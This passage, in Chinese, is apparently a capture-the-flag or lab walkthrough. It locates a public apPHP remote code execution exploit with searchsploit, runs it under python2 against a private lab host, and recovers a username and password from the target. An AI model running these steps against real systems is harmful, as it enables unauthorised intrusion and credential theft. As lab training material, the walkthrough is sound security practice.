 # 漏洞寻找

访问一圈扫描到的目录，没发现有什么信息，使用`searchsploit`测试有无对应版本的历史漏洞

```shell
searchsploit apphp
```

![](./pic-9/7.jpg)

有一个远程代码执行的`py`脚本，尝试使用该脚本进行测试，注意，这里需要的是`python2`的环境

```shell
locate 33070.py
cp /usr/share/exploitdb/exploits/php/webapps/33070.py ./ 
chmod +x 33070.py

python2 33070.py http://192.168.1.66/index.php
```

# 漏洞利用

该脚本首先会进行测试，如`phpinfo`信息等，用法

```shell
Usage: python 33070.py http://target/blog/index.php
```

执行脚本后发现测试出一个`php`文件中的信息，这个脚本直接通过浏览器访问，是没有任何信息，但是这里就可以发现

用户名`clapton`和密码`yaraklitepe`
